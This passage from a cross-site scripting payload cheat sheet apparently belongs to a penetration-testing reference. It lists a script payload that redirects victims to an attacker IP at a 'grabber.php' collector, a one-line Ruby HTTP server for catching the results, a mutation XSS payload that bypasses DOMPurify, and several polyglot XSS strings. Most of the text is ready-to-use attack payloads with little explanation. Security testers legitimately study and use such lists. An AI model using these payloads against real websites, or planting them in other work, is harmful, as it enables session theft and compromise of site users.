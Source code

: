 Eg. payload

```html
<script>document.location='http://10.10.14.30:8080/XSS/grabber.php?c='+document.domain</script>
```

Eg. one-line HTTP server:

```
$ ruby -run -ehttpd . -p8080
```

## Mutated XSS

Use browsers quirks to recreate some HTML tags when it is inside an `element.innerHTML`.

Mutated XSS from Masato Kinugawa, used against DOMPurify component on Google Search. Technical blogposts available at https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/ and https://research.securitum.com/dompurify-bypass-using-mxss/.

```javascript
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

## Polyglot XSS

Polyglot XSS - 0xsobky

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Polyglot XSS - Ashar Javed

```javascript
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

Polyglot XSS - Mathias Karlsson

```javascript
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

Polyglot XSS - Rsnake

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

Polyglot XSS - Daniel Miessler

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
```